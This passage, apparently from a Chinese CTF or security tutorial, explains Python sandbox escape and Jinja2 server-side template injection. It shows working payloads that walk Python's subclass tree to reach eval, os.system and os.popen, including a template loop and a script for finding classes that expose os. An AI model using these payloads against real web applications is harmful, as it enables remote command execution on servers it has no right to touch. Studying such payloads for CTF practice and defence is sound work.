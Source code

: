 ## 0x07 SSTI控制语句

之前我们测试一些可用payload都是直接在python解释器里测试。如果遇上做题的时候，沙盒溢出能够直接测试都还好，如果遇到SSTI，我们要知道一个python-web框架中哪些payload可用，那一个一个发请求手动测试就太慢，这里就需要用模板的控制语句来写代码操作。

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

## 0x08 番外操作

**不利用__globals__**

```python
[].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
```

**timeit**

```python
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

**platform**

```python
import platform
print platform.popen('dir').read()
```

**from_object**

限于篇幅在此不多赘述，详细请参考：[传送门](https://www.freebuf.com/articles/web/98619.html)





记录一下

**命令执行**
继续看命令执行payload的构造，思路和构造文件读取的一样。
python中进行命令执行的模块是os，那么寻找包含os模块的应用类：
贴一个快速寻找os模块的脚本（利用globals可查看到此类包含所有模块的字典）：

```python
# encoding: utf-8
num=0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print(num)
             print(item)
         num+=1
    except:
        print('-')
        num+=1
```

